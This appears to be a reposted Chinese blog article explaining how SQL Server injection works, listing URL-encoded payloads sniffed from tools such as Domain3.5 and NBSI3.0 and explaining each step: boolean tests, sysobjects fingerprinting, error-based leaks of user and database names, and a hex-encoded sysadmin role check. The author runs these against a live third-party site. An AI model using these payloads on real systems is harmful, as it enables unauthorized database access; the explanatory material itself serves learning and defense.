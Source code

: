 ### SQL inject MS SQL Server {#sql-inject-ms-sql-server}

[http://www.webjx.com/database/sqlserver-18067.htm](http://www.webjx.com/database/sqlserver-18067.htm)

全面了解SQLServer注入过程

WebjxCom提示：这次用到的嗅探工具是sniffx专门嗅探http的数据包，功能不强大，但是足够这次活动的使用。

想了解sql注入的过程和原理，网上找了些文章，讲得都比较肤浅，但是我知道有几款国内比较常用的注入工具，比如Domain3.5、 NBSI3.0、啊D2.32、还有Pangolin、还有一些国外的。这里随便弄几个来研究一下就ok。这次用到的嗅探工具是sniffx专门嗅探 http的数据包，功能不强大，但是足够这次活动的使用。本来想使用ethereal或wireshark，但是里面复制数据包内容老是把没有转码的16 进制也复制了过来，有点麻烦。也就是说这两个工具用得不娴熟。

【查询数据库信息】

本地没有找到好点的有注入漏洞的系统，只好在网上寻找了，先用Domain3.5，运行很好以来就找到个sqlserver，sa权限的注入点，点Domain3.5上面的&quot;开始检测&quot;

以下是Domain3.5中嗅探出来的http数据包：

news_show.asp?id=15618%20and%201=1

news_show.asp?id=15618%20and%201=2

news_show.asp?id=15618%20and%20exists%20(select%20*%20from%20sysobjects)

news_show.asp?id=15618%20and%20char(124)%2Buser%2Bchar(124)=0

news_show.asp?id=15618;declare%20@a%20int-

news_show.asp?id=15618%20and%20char(124)%2Bdb_name()%2Bchar(124)=0

news_show.asp?id=15618%20And%20IS_SRVROLEMEMBER(0×730079007300610064006D0069006E00)=1

以下是NBSI3.0中嗅探出来的http数据包：

news_show.asp?id=15618%20and%20user%2Bchar(124)=0

news_show.asp?id=15618%20And%20system_user%2Bchar(124)=0

news_show.asp?id=15618%20And%20Cast(IS_SRVROLEMEMBER(0×730079007300610064006D0069006E00)%20as%20nvarchar(1))%2Bchar(124)=1

news_show.asp?id=15618%20And%20db_name()%2Bchar(124)=0

news_show.asp?id=15618;declare%20@a%20int-

啊D和Pangolin的数据包这里就不列出来了，都差不多。基本的过程是通过and 1=1和and 1=2来判断是否可注入，一般1=1返回http 200(ok),1=2返回http 500(internal server error)表示injectable。然后and exists(select * from sysobjects)来判断数据库类型，sysobjects是sqlserver每个数据库自带的用来存储数据库信息的表格，access每个数据库自带的表格是msysobjects。判断出来是sqlserver数据库之后，然后用系统自带的变量user,system_user和0比较，system_user是nchar类型，user是char类型，0是肯定是int类型，因为不同类型的数据在sqlserver中无法直接比较，所以对于开启错误提示的sqlserver来说就会报错，顺便将敏感信息也暴了出来：

关于user，system_user的解释，点上面的链接到msdn上去看看。

Cast(IS_SRVROLEMEMBER(0×730079007300610064006D0069006E00)%20as%20nvarchar(1))%2Bchar(124)=1中cast()作用是将一种数据类型的表达式显式转换为另一种数据类型的表达式。CAST 和 CONVERT 提供相似的功能。IS_SRVROLEMEMBER指示 SQL Server 2005 登录名是否为指定固定服务器角色的成员，返回值类型为int，0表示不是某某成员，1表示是。 0×730079007300610064006D0069006E00是&amp;apos;sysadmin&amp;apos;的16进制码,为啥要弄成16进制呢，我猜想可能是怕网站程序过滤点sysadmin关键字,如果页面正常返回(200),则表示该用户是sysadmin。精心将int转换成nvarchar(1)又会暴出类型转换错误，而这就是黑客所需要的信息。db_name()回暴出当前数据库名。

;declare%20@a%20int-申明一个int变量a，作用我不得而知。
